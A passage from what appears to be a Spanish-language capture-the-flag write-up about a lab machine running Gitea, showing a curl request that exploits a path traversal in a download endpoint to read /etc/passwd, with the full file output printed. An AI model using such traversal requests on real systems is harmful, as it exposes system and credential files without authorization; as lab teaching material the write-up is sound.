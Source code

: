 En este caso es más cómodo usar `curl` porque desde el navegador te descarga el archivo directamente y no me interesa ese archivo en mi sistema

~~~ bash
curl -s "http://gitea.dl/download?filename=../../../../../etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
designer:x:1001:1001::/home/designer:/bin/bash
_galera:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:103:MariaDB Server,,,:/nonexistent:/bin/false
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
~~~

Si somos observadores podremos notar que en el repositorio `giteaInfo`, concretamente en el archivo (y único) `gitea-composed.yml`. Se definen rutas con un archivo `info.txt`

![image-center](/assets/images/posts/gitea-giteaInfo-repo.png){: .align-center}

